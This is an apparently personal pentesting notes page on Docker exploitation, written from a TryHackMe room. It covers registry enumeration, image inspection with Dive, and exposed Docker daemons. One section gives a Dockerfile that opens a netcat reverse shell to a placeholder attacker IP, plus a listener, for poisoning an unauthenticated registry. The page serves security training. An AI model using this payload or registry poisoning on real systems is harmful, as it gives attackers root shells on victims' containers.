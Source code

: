# Docker Exploitation and Docker vulnerabilities

> This page is in web pentest but Docker can be found in other type of pentests such as network pentest for instance.  
> It can also be used for privesc on linux among other things.
> *This documentation has been made using the room [The Docker Rodeo on TryHackMe](https://tryhackme.com/room/dockerrodeo) and of course notes from my practice*  

## Abusing a Docker Registry

We can launch an nmap scan to check on which port a Docker registry is running `nmap -sV -p- 10.10.137.64`  

![nmap](../.res/2023-07-22-18-24-25.png)  

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/) or [Insomnia](https://insomnia.rest/download/) are much better suited for the job.  
We can also use Burp and forge requests with the repeater for example. In the room Cnmatic uses Postman but I am going to use Burp.  

- We can send a `GET` request to `http://target:5000/v2/_catalog` to list all the repositories.

![List repositories](../.res/2023-07-22-15-52-15.png)  

- To query all published tags of a repository we can send a `GET` request to `http://target:5000/v2/repository/name/tags/list`

![List published tags](../.res/2023-07-22-16-00-32.png)  

- To get a manifest file to the repository we found we can send a `GET` request to `http://target:5000/v2/repository/name/manifests/tag`

![Grab Data](../.res/2023-07-22-16-08-47.png)  

> Not to edit the targe in burp repeater you need to click here ![pencil](../.res/2023-07-22-16-19-58.png) and edit the window according to your needs  

![Edit target Burp](../.res/2023-07-22-16-21-45.png)  

### Example with a registry on port 7000

Abusing the Registry on port 7000  

- List the repos

![List repos 7000](../.res/2023-07-22-16-26-49.png)

- List the published tags

![List tags 7000](../.res/2023-07-22-16-25-48.png)

- Grab data

![Grab data 7000](../.res/2023-07-22-16-24-51.png)

## Reverse Engineering Docker Images

We can pull the image locally and reverse engineer it with Dive.

### Dive

- [Dive official repo](https://github.com/wagoodman/dive#installation)
- Install on Ubuntu

```bash
export DIVE_VERSION=$(curl -sL "https://api.github.com/repos/wagoodman/dive/releases/latest" | grep '"tag_name":' | sed -E 's/.*"v([^"]+)".*/\1/')
curl -OL https://github.com/wagoodman/dive/releases/download/v${DIVE_VERSION}/dive_${DIVE_VERSION}_linux_amd64.deb
sudo apt install ./dive_${DIVE_VERSION}_linux_amd64.deb
```

- We can pull the image `docker pull target:5000/dive/example`
- `docker images` to get the image ID
- `dive image-id`
  - Navigate the data within the current window using the "Up" and "Down" Arrow-keys.
  - You can swap between the Windows using the "Tab" key.

### Example of view in Dive

![Dive image from port 7000](../.res/2023-07-22-16-45-30.png)

## Uploading Malicious Docker Images

Without proper authentication, we can upload our own image to the target's registry. That way, the next time the owner runs a `docker pull` or `docker run` command, their host will download and execute our malicious image as it will be a new version for Docker.  

- Dockerfile that will connect to our machine with netcat

```yml
FROM debian:jessie-slim

RUN apt-get update -y
RUN apt-get install netcat -y
RUN nc -e /bin/sh <ATTACKING-MACHINE-IP> 8080
```

We compile this into an image with docker build . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

- `rlwrap nc -lvnp 8080`

This way we will get access as root to the container. The next step will be to try to escape the container or privesc one way or another.

## RCE via Exposed Docker Daemon

Sometimes Docker can be set up to be used remotely, this way when enumerating a target with nmap we might find docker running on a target.  

- `curl http://TARGET-IP:2375/version` Check if we can interact with the Docker Daemon. If it works we get a result looking like this.  

![Curl](../.res/2023-07-22-18-19-33.png)

- `docker -H tcp://TARGET-IP:2375 ps` list the currently running container the H flag allows us to specify the IP of our remote target.

![list remotes running containers](../.res/2023-07-22-18-38-02.png)

### Coming soon

## Resources

### Tools

- [Dive](https://github.com/wagoodman/dive#installation)
- [Rootplease](https://registry.hub.docker.com/r/chrisfosterelli/rootplease)

### Documentation

- [Docker Registry Documentation](https://docs.docker.com/registry/spec/api/)

### Other references to Docker vulnerabilities

- [Linux privesc - Docker group](https://csbygb.gitbook.io/pentips/linux/privesc/groups#docker)

### Blogs

- [Privilege Escalation via Docker - Chris Foster](https://fosterelli.co/privilege-escalation-via-docker)

### Writeups with Docker related exploits

- [HTB - Goodgames](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-goodgames)
- [HTB - Toolbox](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-toolbox)
- [TryHackMe - Ultratech](https://csbygb.gitbook.io/pentips/writeups/thmwriteups/thm-ultratech)
- [HTB - Shoppy](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-shoppy)
- [HTB - Mentor](https://csbygb.gitbook.io/pentips/writeups/htbwriteups/htb-mentor)